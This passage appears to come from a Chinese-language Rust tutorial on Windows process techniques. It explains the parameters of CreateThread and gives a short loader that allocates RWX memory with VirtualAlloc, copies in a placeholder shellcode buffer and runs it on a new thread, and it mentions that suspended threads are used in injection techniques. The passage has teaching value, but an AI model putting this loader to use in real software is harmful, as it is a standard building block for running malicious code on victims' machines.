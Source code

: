 1. `lpthreadattributes` ：一个指向  `SECURITY_ATTRIBUTES`  结构的指针，用于定义线程的安全性以及子进程是否可以继承此线程的句柄。可以为 None
2. `dwstacksize`：指定新线程的初始栈大小（以字节为单位）。传入  `0` 可以使新线程使用与主线程相同的默认栈大小。
3. `lpstartaddress`：它是一个函数指针，指向新线程将要开始执行的函数地址。这个函数的原型必须是  `fn(lpthreadparam: *mut c_void) -> u32`。
4. `lpparameter`：一个指向变量的指针，该变量将被传递给新线程的起始函数（即  `lpStartAddress`  指向的函数）。可以为 None
5. `dwcreationflags`：控制线程创建的标志。传入  `0`，表示线程在创建后立即开始运行。另一个常见的值是  `CREATE_SUSPENDED (0x4)`，它会创建线程但使其处于挂起状态，直到调用  `ResumeThread`  才会运行。挂起创建在更复杂的注入技术中很常用，例如在执行前修改线程的上下文。
6. `lpthreadid`：一个指向变量的指针，用于接收新创建线程的线程标识符 (TID)。，可以为 None

返回值：

- 成功：返回一个指向新线程的句柄 (`HANDLE`)。这个句柄拥有对线程的完全控制权，可以用来等待、暂停、恢复或终止线程。
- 失败：返回一个无效句柄 (`INVALID_HANDLE_VALUE`)。可以通过 `GetLastError` 获取具体的错误代码。

:::note
更多相关的内容，请参考：[CreateThread function (processthreadsapi.h) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
:::

```Rust
use windows::Win32::System::Memory::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE, VirtualAlloc};
use windows::Win32::System::Threading::{CreateThread, THREAD_CREATION_FLAGS};

fn main() {
    let shellcode: &[u8] = b"shellcode";
    unsafe {
        let address = VirtualAlloc(
            None,
            shellcode.len(),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        );

        std::ptr::copy_nonoverlapping(shellcode.as_ptr(), address as *mut u8, shellcode.len());

        let thread = CreateThread(
            None,
            0,
            Some(std::mem::transmute(address)),
            None,
            THREAD_CREATION_FLAGS(0),
            None,
        )
        .unwrap();
    }
}
```

这里解释一下 `Some(std::mem::transmute(address)),`。

- `lpstartaddress` 为 `LPTHREAD_START_ROUTINE` 类型，而这个类型是一个 `Option<T>`，所以需要用 `Some()`
- `address`  是我们通过  `VirtualAlloc`  分配并写入了 Shellcode 的内存区域的起始地址。
- `mem::transmute`  是一个 Rust 的  `unsafe`  操作，它将一个类型的值强制转换为另一个类型。在这里，它将一个原始的内存指针 (`*mut c_void`) 转换为  `CreateThread`  所需的函数指针类型 (`LPTHREAD_START_ROUTINE`)。这本质上是在告诉操作系统："请把这块内存里的数据当作可执行代码来运行。"
